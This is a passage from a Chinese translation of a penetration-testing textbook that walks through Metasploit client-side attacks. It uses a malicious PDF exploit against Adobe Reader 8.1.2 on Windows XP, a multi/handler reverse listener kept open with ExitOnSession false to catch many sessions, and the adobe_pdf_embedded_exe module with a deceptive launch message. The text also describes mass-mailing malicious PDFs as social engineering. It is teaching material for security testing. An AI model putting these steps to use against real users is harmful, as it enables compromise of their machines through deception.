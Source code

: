 ```
2015-05-05 20:26:15 -0400 ❷
```

我们将文件复制到 Apache web 服务器的文件夹中，并启动服务器（如果服务器还没有运行的话）。稍后我们会讨论如何诱使用户打开恶意文件，但现在我们仅仅是在 Windows XP 目标机上使用 Adobe Reader 8.1.2 打开恶意 PDF。不过，首先，我们需要为有效载荷设置处理程序。我们可以使用 *multi/handler* ❶ 模块，正如我们在第四章中学到的那样。（如果 Aurora 作业的处理程序也在监听 4444 端口，请确保终止该作业，以便释放端口供 *multi/handler* 使用）。当我们打开恶意 PDF 时，我们再次收到一个会话 ❷。

通常像这样的攻击我们不会只针对一个用户。为了获得最佳效果，我们可能会将这个恶意 PDF 作为社会工程学攻击的一部分，如下一章所述，通过发送几个甚至数百个恶意 PDF 来诱使用户打开它们。我们之前设置的*multi/handler*监听器会在接收到第一个连接时关闭，这样就会错过其他用户打开 PDF 后可能产生的连接。如果我们能够保持监听器打开，以捕获更多的传入连接，那就更好了。

事实证明，*multi/handler*模块的一个高级选项解决了这个问题。如示例 10-12 所示，默认情况下，`ExitOnSession`选项被设置为`true`，它指定监听器在收到会话后是否关闭。如果我们将此选项设置为`false`，监听器将保持打开状态，并允许我们用一个处理程序捕获多个会话。

示例 10-12. 保持处理程序开放以进行多次会话

```
msf exploit(handler) > **show advanced**
Module advanced options:
--*snip*--
   Name           : ExitOnSession
   Current Setting: true
   Description    : Return from the exploit after a session has been created
msf exploit(handler) > **set ExitOnSession false**❶
ExitOnSession => false
msf exploit(handler) > **exploit -j**❷
[*] Exploit running as background job.
[*] Started reverse handler on 192.168.20.9:4444
[*] Starting the payload handler...
```

按照通常的方式将`ExitOnSession`设置为`false` ❶。这个选项的副作用是，如果我们，例如，利用漏洞并在前台启动监听器，它将永远不会关闭，这样我们就会在没有 Msfconsole 提示符的情况下被卡住。因此，Metasploit 会抱怨并指出你应该在使用`exploit`时使用`-j`选项 ❷，将处理程序作为后台任务运行。这样，你可以在后台捕获任何传入的 shell 的同时继续使用 Msfconsole。要关闭处理程序，可以使用`jobs`，然后使用`kill` *`<任务编号>`*，如我们在 Aurora 示例中所做的那样。

这个漏洞和前面讨论的 Aurora 浏览器示例都依赖于缺少的安全补丁。在这里，我们利用了一个安全漏洞，通过欺骗用户让我们运行恶意代码，从而劫持了程序的控制权。如果用户允许我们运行代码，PDF 软件中的漏洞就变得不再必要。

#### PDF 嵌入的可执行文件

现在进行另一个 PDF 攻击：这次我们将在 PDF 中嵌入一个恶意可执行文件。相应的 Metasploit 模块是*exploit/windows/fileformat/adobe_pdf_embedded_exe*，如示例 10-13 所示。生成的 PDF 不会在打开时立刻利用软件漏洞，而是会提示用户允许运行嵌入的文件。我们的攻击成功与否取决于用户是否允许执行我们嵌入的可执行文件。

示例 10-13. PDF 嵌入的 EXE 模块

```
msf > **use exploit/windows/fileformat/adobe_pdf_embedded_exe**
msf  exploit(adobe_pdf_embedded_exe) > **show options**

Module options (exploit/windows/fileformat/adobe_pdf_embedded_exe):

   Name            Current Setting                        Required  Description
   ----            ---------------                        --------  -----------
  ❶EXENAME                                                no        The Name of payload exe.
  ❷FILENAME        evil.pdf                               no        The output filename.
  ❸INFILENAME                                             yes       The Input PDF filename.
  ❹LAUNCH_MESSAGE  To view the encrypted content please   no        The message to display in
                     tick the "Do not show this message               the File: area
                     again" box and press Open.
--*snip*--
```
